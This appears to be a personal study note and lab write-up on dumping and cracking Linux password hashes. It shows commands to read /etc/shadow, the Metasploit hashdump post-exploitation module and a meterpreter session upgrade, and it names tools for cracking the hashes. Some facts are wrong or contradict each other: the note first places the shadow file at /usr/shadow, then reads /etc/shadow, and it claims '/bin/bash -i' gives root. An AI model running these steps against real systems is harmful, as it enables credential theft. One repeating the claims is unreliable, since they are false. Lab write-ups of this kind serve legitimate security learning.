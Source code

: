 Related to [[Linux Exploitation]], [[Privilege Escalation]], [[Post Exploitation]]

The shadow file stores passwords related to users, its at /usr/shadow and can only be accessed by the root user.

The passwords will be hashes, we can see with which algorithm using this chart:

![[linux_hash_chart.png]]

---

## Lab Writeup

The exploiting of the lab is trivial searchsploit-metasploit workflow.

We start with a shell session which we can upgrade to root via:

``` bash
/bin/bash -i
```

We can background the session and then upgrade it to meterpreter through:

``` bash
sessions -u 1
```

We then enter the meterpreter session.

We can use:

``` bash
cat /etc/shadow
```

Or we can use hashdump

``` bash
use post/linux/gather/hashdump
set SESSION [sessionnum]
run
```

The perk here is hashdump also unshadows the retrieved hashes.

We can crack the password using auxiliary/analyze/crack_linux or hashcat



